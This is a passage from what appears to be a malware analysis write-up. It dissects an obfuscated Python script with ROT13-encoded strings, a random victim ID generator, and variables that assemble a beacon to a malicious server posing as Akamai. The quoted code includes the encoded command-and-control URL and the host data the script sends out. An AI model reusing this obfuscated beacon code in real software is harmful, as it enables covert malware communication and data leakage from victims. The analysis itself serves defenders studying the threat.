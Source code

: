 **Encoded Python script imports**

The script contains two functions named `co` and `rand_n`. 

The `co` function operates as a helper function. This function checks the current operating system (`osn`). It uses the `codecs.decode` function with ROT13 encoding to decode the string `Jvaqbjf`, which results in `Windows`. If the operating system is Windows, it returns `0`; otherwise, it returns `1`.

```
def co(osn):
  if osn == codecs.decode('Jvaqbjf', 'rot13'):
      return 0
  else:
      return 1
```

**`co` function within encoded Python script**

Decoding ROT13 can easily be done on the macOS or Linux CLI or with the [ROT13 CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=SnZhcWJqZg&oeol=CRLF).

```
$ echo "Jvaqbjf" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
Windows
```

The `rand_n` function generates an 8-digit pseudorandom number from the string `123456789`. This is likely used as an identifier (`uid`) in further communication with the remote server.

```
def rand_n():
  _LENGTH = 8
  str_pool = "123456789"
  result = ""
  for i in range(_LENGTH):
      result += random.choice(str_pool)
  return result
```

**`rand_n` function within encoded Python script**

Following the function declarations, the script defines a set of variables with hardcoded values it will use.

```
uid = rand_n()
f_run = ""
oi = platform.system()
url = codecs.decode('uggcf://nxnznvgrpuabybtvrf.bayvar/', 'rot13')
headers = {"Content-Type": "application/json; charset=utf-8"}
data = codecs.decode('Nznmba.pbz', 'rot13') + uid + "pfrr" + str(co(oi))
```

**Encoded Python script variables**

* `uid`: Random identifier generated using `rand_n()`
* `oi`: The operating system platform
* `url`: After decoding using ROT13, this resolves to a URL for a malicious server ([https://akamaitechnologies[.]online](https://akamaitechnologies[.]online)). The threat actor is obviously attempting to evade detection by encoding the URL and disguising it as a seemingly legitimate service (Akamai), which is a known CDN provider.
* `data`: This is the data payload being sent to the server. It includes a decoded string (`Amazon[.]com`), the random uid, and the result of `co(oi)` which checks if the OS is Windows.

